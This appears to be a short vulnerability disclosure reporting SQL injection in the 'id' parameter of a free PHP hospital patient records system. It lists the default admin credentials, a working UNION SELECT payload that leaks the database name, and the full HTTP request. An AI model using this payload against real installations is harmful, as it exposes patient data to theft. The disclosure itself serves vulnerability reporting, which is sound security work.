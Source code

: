 # Hospital's Patient Records Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html

Vulnerability File: /hprms/admin/?page=patients/view_patient&id=

Vulnerability location: /hprms/admin/?page=patients/view_patient&id=, id

Current database name: hprms_db ,length is 8

[+] Payload: /hprms/admin/?page=patients/view_patient&id=-1%27%20union%20select%201,database(),3,4,5,6,7--+ // Leak place ---> id

```sql
GET /hprms/admin/?page=patients/view_patient&id=-1%27%20union%20select%201,database(),3,4,5,6,7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171407100-9e8610af-51a4-4b57-a233-0006d4e69249.png)

![image](https://user-images.githubusercontent.com/54017627/171407154-6997353a-ec47-4d50-a3bb-f781a69568be.png)
